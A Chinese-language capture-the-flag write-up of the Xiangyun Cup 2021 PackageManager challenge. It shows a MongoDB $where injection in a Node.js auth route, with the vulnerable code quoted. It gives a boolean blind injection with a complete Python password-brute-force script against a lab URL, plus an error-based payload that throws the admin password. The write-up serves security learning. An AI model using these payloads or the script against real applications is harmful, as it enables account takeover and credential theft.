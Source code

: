 ```yaml
---
title: 祥云杯 2021 PackageManager writeup
date: 2022-03-23 17:41:00
updated: 2022-03-23 17:41:00
tags: [ctf,security]
category: CTF
---
```


# 祥云杯 2021 PackageManager writeup

这题在BUUOJ上有复现环境，是个mongodb注入的题目，也有xsleaks的解法但是我目前还没搞明白，以下是两种注入的解法

## 布尔盲注

注册登录后发现是个包管理的页面，可以创建自己的包，那么根据源码初始化数据库这一部分，比较显然我们需要登录admin的账号然后admin会有个包里面有flag。

![image-20220323161015566](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323161015566.png)

![image-20220323160826952](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160826952.png)

那我们的目标就是找到admin用户的密码

漏洞产生的点是/auth接口，auth接口是用于验证submit package的用户是不是admin用户，然后是需要提交一个admin的token，这个token就是admin用户的密码的md5，我们可以在这里构造一下payload然后爆出password，从而实现admin用户登录。

正则检测的waf没有加`^$`,意味着后面可以加or条件，这个很关键

```tsx
router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
				if (docs.length == 1) {
					if (!(docs[0].isAdmin === true)) {
						return res.render('auth', { error: 'Failed to auth' })
					}
				} else {
					return res.render('auth', { error: 'No matching results' })
				}
			} catch (err) {
				return res.render('auth', { error: err })
			}
		} else {
			return res.render('auth', { error: 'Token must be valid md5 string' })
		}
	} else {
		return res.render('auth', { error: 'Parameters error' })
	}
	req.session.AccessGranted = true
	res.redirect('/packages/submit')
});
```

我们构造token:`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[0]=="a`使得括号内的值为

`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" || this.password[0]=="a"`

此时只要或条件成立语句就为真，写个脚本就可以爆出密码啦

```python
import requests
import string

url="http://d8ec246d-507e-4aaa-a226-d318473d31ec.node4.buuoj.cn:81/auth"
headers={
    "Cookie": "session=s%3Ay8Ne8sPLeY55QXmWPyh3WmPiuoDgOp6y.U3VuzJCBxWcb5AWW8CCkPJqnSmYJ1N9EnHvoR%2BBuGho",
}

flag = ''
for i in range(10000):
    for j in string.printable:
        if j == '"':
            continue
        payload='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(i,j)
        data={
            "_csrf": "YzvJKLZc-4Sp0gfSn-hIRIF4bUZu0nhXy0HU",
            "token": payload
        }
        r=requests.post(url=url,data=data,headers=headers,allow_redirects=False)
        # print(r.text)
        if "Found. Redirecting to" in r.text:
            print(payload)
            flag+=j
            print(flag)
            break
```



![image-20220323155929287](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323155929287.png)

![image-20220323160751490](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160751490.png)

## 异常注入

同样的是对auth接口这里逻辑判断，利用了js的抛出异常和IIFE（立即调用函数表达式）来实现

`token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin`

逻辑判断语句为：`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()!="aaaaa"`

这里就是立即执行throw Error(this.password)，后面是!=还是== 字符串的值是什么都无所谓，只要是语法没问题然后语句正常执行，这里强制抛出异常，从源码中可以看到抛出的异常会被渲染出来，然后就能够看到password的值

```js
let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin""`).exec()
console.log(docs);
```

![image-20220323165452041](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323165452041.png)



